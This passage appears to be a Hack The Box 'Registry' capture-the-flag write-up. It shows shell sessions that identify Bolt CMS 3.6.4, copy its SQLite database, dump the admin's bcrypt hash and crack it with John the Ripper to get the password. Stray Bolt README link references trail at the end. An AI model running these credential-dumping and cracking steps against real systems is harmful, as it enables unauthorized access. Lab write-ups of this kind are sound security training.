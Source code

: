 {% endhighlight %}

As the readme.md file stated, bolt is a simple CMS program. The changelog.md file quickly revealed the service’s version:

{% highlight bash %}
bolt@bolt:/var/www/html/bolt$ cat changelog.md | head -n 5
Changelog for Bolt 3.x
======================

Bolt 3.6.4
----------
bolt@bolt:/var/www/html/bolt$

{% endhighlight %}

Like most CMS platforms, bolt required credentials to identify admins. I managed to find the program’s database (bolt.db) and to extract the admin’s password hash:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry# scp -i ~/.ssh/bolt_registry bolt@registry.htb:/var/www/html/bolt/app/database/bolt.db .
bolt.db                                                              100%  288KB 372.4KB/s   00:00    
root@fury-battlestation:~/htb/blog/registry# sqlite3
SQLite version 3.29.0 2019-07-10 17:32:03
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open bolt.db
sqlite> .database
main: /root/htb/blog/registry/bolt.db
sqlite> .tables
bolt_authtoken    bolt_field_value  bolt_pages        bolt_users      
bolt_blocks       bolt_homepage     bolt_relations  
bolt_cron         bolt_log_change   bolt_showcases  
bolt_entries      bolt_log_system   bolt_taxonomy   
sqlite> .output users.txt
sqlite> SELECT * FROM bolt_users;
sqlite> .exit
root@fury-battlestation:~/htb/blog/registry# cat users.txt 
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-12-28 18:44:20|10.10.14.23|Admin|["files://b374k-3.2.3.php"]|1||||0||["root","everyone"]
root@fury-battlestation:~/htb/blog/registry#

{% endhighlight %}

After doing that, I used johnTheRipper to crack the newly-obtained hash:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry# echo "\$2y\$10\$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK" > hash.txt
root@fury-battlestation:~/htb/blog/registry# john hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
strawberry       (?)
1g 0:00:00:12 DONE 2/3 (2019-12-28 13:50) 0.08210g/s 90.14p/s 90.14c/s 90.14C/s stinky..thunder
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@fury-battlestation:~/htb/blog/registry# 

{% endhighlight %}


[bolt-cm]: https://bolt.cm
[MIT-license]: http://opensource.org/licenses/mit-license.php
[docs]: https://docs.bolt.cm/installation
[support]: https://bolt.cm/community
[travis]: http://travis-ci.org/bolt/bolt
[travis-badge]: https://travis-ci.org/GawainLynch/bolt.svg?branch=release%2F3.3
[codeclimate]: https://lima.codeclimate.com/github/bolt/bolt
[codeclimate-badge]: https://lima.codeclimate.com/github/bolt/bolt/badges/gpa.svg
[sensio-insight]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5
[sensio-badge]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5/mini.png
[slack-badge]: https://slack.bolt.cm/badge/ratio
[contributing]: https://github.com/bolt/bolt/blob/master/.github/CONTRIBUTING.md